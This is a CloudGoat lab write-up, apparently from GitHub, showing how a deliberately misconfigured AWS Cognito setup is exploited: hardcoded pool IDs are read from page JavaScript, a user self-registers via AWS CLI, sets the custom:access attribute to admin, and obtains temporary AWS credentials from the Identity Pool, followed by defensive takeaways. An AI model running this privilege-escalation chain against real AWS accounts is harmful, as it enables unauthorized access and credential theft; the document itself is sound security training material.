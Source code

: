 # 🛠️ CloudGoat vulnerable Cognito Writeup

## ⚡ TL;DR

We exploit a misconfigured AWS Cognito environment by signing up through a vulnerable User Pool, retrieving an access token, and leveraging it to escalate privileges via custom attributes. This access allows us to assume roles in an Identity Pool and retrieve temporary AWS credentials—facilitating lateral movement or privilege escalation within the environment.

---

## 🎯 Target Information

- **Region**: `us-east-1`
- **Cognito Identity Pool ID**: `us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8`
- **Cognito App Client ID**: `24m03titp7v5d0eli306vqimto`  
- **Cognito User Pool ID**: `us-east-1_mSaMI1nQ1`

---

## 🧽 Step-by-Step Exploitation

### 🔍 Step 1: Reconnaissance & Initial Access

The application is hosted at:

```
https://xxx.execute-api.us-east-1.amazonaws.com/vulncognito/cognitoctf-cgid730b6h5u8m/index.html
```

Upon visiting the site, we find login and sign-up functionality. Attempting to sign up reveals a filter: only emails ending in `@ecorp.com` are accepted.

![image](https://github.com/user-attachments/assets/3b46f796-feb5-4178-aaa2-93e161c5e2e3)

Trying to sign up:

![image (1)](https://github.com/user-attachments/assets/c04436b5-742f-4b4a-8b58-0e3c08800bf9)

Inspecting the page source, we find credentials hardcoded in JavaScript:

```js
UserPoolId: 'us-east-1_mSaMI1nQ1',
ClientId: '24m03titp7v5d0eli306vqimto',
```

This gives us what we need to begin interacting with AWS Cognito via CLI.

---

### ✉️ Step 2: User Registration via AWS CLI

Using the `ClientId`, we attempt to register:

```bash
aws cognito-idp sign-up \
  --client-id 24m03titp7v5d0eli306vqimto \
  --username test@test.com \
  --password 'Test1@test.com' \
  --user-attributes Name=email,Value=test@test.com Name=given_name,Value=test Name=family_name,Value=test
```

Response:

```json
{
  "UserConfirmed": false,
  "CodeDeliveryDetails": {
    "Destination": "t***@t***",
    "DeliveryMedium": "EMAIL",
    "AttributeName": "email"
  },
  "UserSub": "d4a84488-c001-705a-8fb9-164a987e4a4e"
}
```

We confirm the user:

```bash
aws cognito-idp confirm-sign-up \
  --client-id 24m03titp7v5d0eli306vqimto \
  --username test@test.com \
  --confirmation-code <CODE_FROM_EMAIL>
```

---

### 🧰 Step 3: Authentication & Access Token Retrieval

Login now redirects us to a new page:

![image (2)](https://github.com/user-attachments/assets/0bde252f-7b19-4e5e-a3cd-1524122c12d2)

We use **Burp Suite** to intercept the login and capture our **access token**.

![image (3)](https://github.com/user-attachments/assets/3b19f169-b710-4e47-95f5-33f1de65ece0)

We validate the token via:

```bash
aws cognito-idp get-user --access-token <ACCESS_TOKEN>
```

Which reveals:

```json
"custom:access": "reader"
```

This custom attribute seems to control access levels.

---

### ⬆️ Step 4: Privilege Escalation via Attribute Modification

We attempt to elevate our privileges by modifying the `custom:access` attribute:

```bash
aws cognito-idp update-user-attributes \
  --access-token <ACCESS_TOKEN> \
  --user-attributes '[{"Name":"custom:access","Value":"admin"}]'
```

The update is successful. We now potentially have admin-level access.

---

### 🧺 Step 5: Linking to Identity Pool

With elevated privileges, we now attempt to get temporary AWS credentials by linking the token to the Cognito Identity Pool:

```bash
aws cognito-identity get-id \
  --region us-east-1 \
  --identity-pool-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8 \
  --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_mSaMI1nQ1":"<ACCESS_TOKEN>"}'
```

Returns:

```json
"IdentityId": "us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8"
```

Now we request credentials:

```bash
aws cognito-identity get-credentials-for-identity \
  --region us-east-1 \
  --identity-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8 \
  --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_mSaMI1nQ1":"<ACCESS_TOKEN>"}'
```

We receive:

```json
"AccessKeyId": "ASIA...",
"SecretKey": "xxxxx",
"SessionToken": "xxxxx",
"Expiration": "2025-06-04T21:43:26-04:00"
```

---

### 🧰 Step 6: Configure and Verify Access

We configure a new AWS CLI profile with our credentials:

```bash
aws configure --profile cognito
```

Then verify access:

```bash
aws sts get-caller-identity --profile cognito
```

Output:

```json
{
  "UserId": "AROA2S3E7PEZIU2AWMXNC:CognitoIdentityCredentials",
  "Account": "727671863602",
  "Arn": "arn:aws:sts::727671863602:assumed-role/cognito_authenticated-cgid730b6h5u8m/CognitoIdentityCredentials"
}
```

---

### 🔎 Step 7: Enumerating Permissions with Pacu

We use [Pacu](https://github.com/RhinoSecurityLabs/pacu) to discover the permissions tied to the assumed role:

```json
"Permissions": {
  "Allow": [
    "sts:GetCallerIdentity",
    "dynamodb:DescribeEndpoints",
    "lambda:ListFunctions",
    "lambda:ListEventSourceMappings",
    "lambda:ListLayers",
    "lambda:GetAccountSettings",
    "s3:ListBuckets"
  ],
  "Deny": []
}
```

While limited, these permissions still provide actionable access to several services including **Lambda**, **S3**, and **DynamoDB**.

---

## 🧠 Key Takeaways

- **Client IDs and User Pool IDs** hardcoded in frontend JavaScript are a major security risk.
- **Attribute update policies** must be tightly controlled—especially for custom fields like `custom:access`.
- **Identity Pool trust relationships** should strictly validate user claims and access levels.

---

## 🐻 Conclusion

This exploitation chain demonstrates how seemingly benign AWS Cognito misconfigurations can lead to privilege escalation, credential exposure, and lateral movement across an AWS account. Secure your Cognito implementation by:

- Removing sensitive config from frontend apps
- Restricting attribute updates
- Locking down identity pool trust policies
